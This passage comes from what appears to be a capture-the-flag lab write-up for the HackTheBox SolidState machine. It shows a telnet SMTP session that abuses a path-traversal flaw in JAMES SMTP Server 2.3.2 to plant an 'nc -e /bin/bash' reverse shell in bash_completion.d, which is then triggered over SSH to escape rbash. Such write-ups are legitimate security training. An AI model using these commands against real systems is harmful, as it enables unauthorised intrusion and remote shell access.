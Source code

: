 ```
root@kali:~# telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
EHLO bla.bla
250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'[random@random.com](mailto:random@random.com)>
250 2.1.0 Sender <'[random@random.com](mailto:random@random.com)> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: bla.bla
'
/bin/nc -e /bin/bash 10.10.14.12 1234
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```

If you’re not familiar with using telnet for SMTP communication, refer to this [guide](https://docs.microsoft.com/en-us/exchange/mail-flow/test-smtp-with-telnet?view=exchserver-2019). One thing to note is the single quote we added in the MAIL FROM field and after the FROM field. This is so that the file is interpreted properly at the backend and our reverse shell runs.

Next, set up a listener to receive the reverse shell.

```
nc -nlvp 1234
```

Then SSH into Mindy’s account so that the content of the bash_completion directory is loaded.

```
ssh mindy@10.10.10.51
```

We get a shell that’s no longer restricted by the rbash shell!

![](../img/Solidstate Writeup wo Metasploit/1_-g9cs4Y3RIcMG88e3yREnQ.png)

Let’s upgrade it to a better shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.
